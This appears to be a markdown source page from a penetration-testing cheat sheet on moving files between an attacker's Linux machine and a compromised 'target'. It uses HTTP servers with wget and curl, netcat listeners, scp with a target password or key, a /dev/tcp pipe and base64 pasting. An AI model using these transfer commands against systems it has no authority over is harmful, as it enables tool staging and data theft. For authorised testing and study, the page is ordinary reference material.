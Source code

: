 ```yaml
---
title: "File Transfer (Linux To Linux)"
date: 2024-6-26
tags: ["file transfer", "nc", "scp"]
---
```


{{< tab set1 tab1 active >}}HTTP{{< /tab >}}
{{< tab set1 tab2 >}}nc{{< /tab >}}
{{< tab set1 tab3 >}}scp{{< /tab >}}
{{< tab set1 tab4 >}}PIPE{{< /tab >}}
{{< tab set1 tab5 >}}Base64{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
# Start a local HTTP server
python3 -m http.server <LOCAL_PORT>
```

```console
# In target Linux machine
wget <LOCAL_IP>:<LOCAL_PORT>/<FILE>
```

```console
# In target Linux machine
curl <LOCAL_IP>:<LOCAL_PORT>/<FILE> -o <REMOTE_DEST_PATH>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```console
# In our local Linux machine
nc -lvnp <LOCAL_PORT> < <FILE>
```

```console
# In target Linux machine
nc -w3 <LOCAL_IP> <LOCAL_PORT> > <FILE>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

<div>

#### Remote to Local

```console
# If you have target password
scp <USER>@<TARGET>:<REMOTE_FILE_PATH> <LOCAL_DEST_PATH>
```

```console
# If you have a ssh key
scp -i id_rsa <USER>@<TARGET>:<REMOTE_FILE_PATH> <LOCAL_DEST_PATH>
```

</div>

#### Local to Remote

<div>

```console
# If you have target password
scp <LOCAL_FILE_PATH> <USER>@<TARGET>:<REMOTE_DEST_PATH>
```

```console
# If you have a ssh key
scp -i id_rsa <LOCAL_FILE_PATH> <USER>@<TARGET>:<REMOTE_DEST_PATH>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

<div>

#### Local to Remote

```console
# In our local Linux machine
cat <FILE> | nc -lnvp <LOCAL_PORT>
```

```console
# In target Linux machine
exec 3<>/dev/tcp/<LOCAL_IP>/<LOCAL_PORT>
```

```console
# Ctrl+C to interrupt after some time
cat <&3 > <FILE>
```

```console
# Check
md5sum <FILE>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab5 >}}

<div>

#### Small binary

```console
# Base64 encode binary
cat <FILE> | base64 -w0
```

```console
# Copy and paste the base64 encoded binary
echo -n '<BASE64_FILE>' | base64 -d > <FILE>
```

<small>*Note: For restricted environment*</small>

</div>

{{< /tabcontent >}}

<br>